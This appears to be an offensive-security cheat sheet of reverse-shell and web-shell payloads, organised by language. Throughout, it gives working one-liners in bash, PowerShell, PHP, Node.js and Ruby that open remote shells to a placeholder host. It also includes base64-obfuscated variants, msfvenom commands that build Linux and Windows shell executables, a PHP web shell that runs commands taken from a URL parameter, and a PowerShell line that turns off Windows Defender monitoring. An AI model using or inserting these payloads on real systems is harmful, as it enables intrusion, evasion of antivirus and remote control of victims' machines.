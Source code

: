# Shells

- [Revshells](https://www.revshells.com/)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Msfvenom

```bash
msfvenom -l payloads
```
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=443 -f elf > exploit
```

## Spawn a TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
```bash
/bin/sh -i
```
```bash
awk 'BEGIN {system("/bin/sh")}'
```

## Bash
[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJi9kZXYvdGNwLzEwLjEwLjEwLjEwLzQ0MyAwPiYx)
```bash
/bin/bash -i >& /dev/tcp/1.1.1.1/1235 0>&1
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 1234 >/tmp/f
```

```bash
{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|bash 
```

```bash
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|{bash,-i} 
```

```bash
echo${IFS}YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx|base64${IFS}-d|bash
```

```bash
echo YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx | base64 -d | bash 
```

## Powershell
Maybe you can disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
### Base64
- [Revshells (Powershell #3 Base64)](https://www.revshells.com/)

[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=JHNvY2tldCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgnMTAuMTAuMTAuMTAnLDQ0Myk7IGlmKCRzb2NrZXQgLWVxICRudWxsKXtleGl0IDF9OyAkc3RyZWFtID0gJHNvY2tldC5HZXRTdHJlYW0oKTsgJHJlYWRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVJlYWRlcigkc3RyZWFtKTsgJHdyaXRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVdyaXRlcigkc3RyZWFtKTsgJHdyaXRlci5BdXRvRmx1c2g9JHRydWU7ICRwcm9tcHQgPSAnUFMgJyArICQoR2V0LUxvY2F0aW9uKSArICc%2BICc7ICR3cml0ZXIuV3JpdGUoJHByb21wdCk7IHdoaWxlKCR0cnVlKXsgJGRhdGEgPSAkcmVhZGVyLlJlYWRMaW5lKCk7ICRvdXRwdXQgPSAnJzsgdHJ5eyAkb3V0cHV0ID0gSW52b2tlLUV4cHJlc3Npb24gJGRhdGEgMj4mMSB8IE91dC1TdHJpbmcgfWNhdGNoeyAkb3V0cHV0ID0gJF8gfTsgJHdyaXRlci5Xcml0ZSgkb3V0cHV0ICsgJHByb21wdCkgfQ) ["Encode Text" UTF-16LE] -> [Base64]

```powershell
powershell -e JABzAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqA...
```

### Unencoded
```bash
$LHOST = "1.1.1.1"; $LPORT = 1242; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```bash
$socket = New-Object System.Net.Sockets.TCPClient('1.1.1.1',1244); if($socket -eq $null){exit 1}; $stream = $socket.GetStream(); $reader = New-Object System.IO.StreamReader($stream); $writer = New-Object System.IO.StreamWriter($stream); $writer.AutoFlush=$true; $prompt = 'PS ' + $(Get-Location) + '> '; $writer.Write($prompt); while($true){ $data = $reader.ReadLine(); $output = ''; try{ $output = Invoke-Expression $data 2>&1 | Out-String }catch{ $output = $_ }; $writer.Write($output + $prompt) }
```



## PHP
- [p0wny-shell](https://github.com/flozz/p0wny-shell/tree/master)

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/1.1.1.1/1235 0>&1'");?>
```

```bash
php -r '$sock=fsockopen("1.1.1.1",1235);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```html
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
        <input type="TEXT" name="cmd" id="cmd" size="80">
        <input type="SUBMIT" value="Execute">
        </form>
        <pre>
        <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
        </pre>
    </body>
    <script>document.getElementById("cmd").focus();</script>
</html>
```

## Nodejs

```javascript
require('child_process').exec('nc -e /bin/bash 1.1.1.1 1235')
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1235, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",1235).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## msfvenom
### Windows
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=1.1.1.1 lport=1235 -f aspx > shell.aspx
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=1235 -f exe -o shell.exe
```
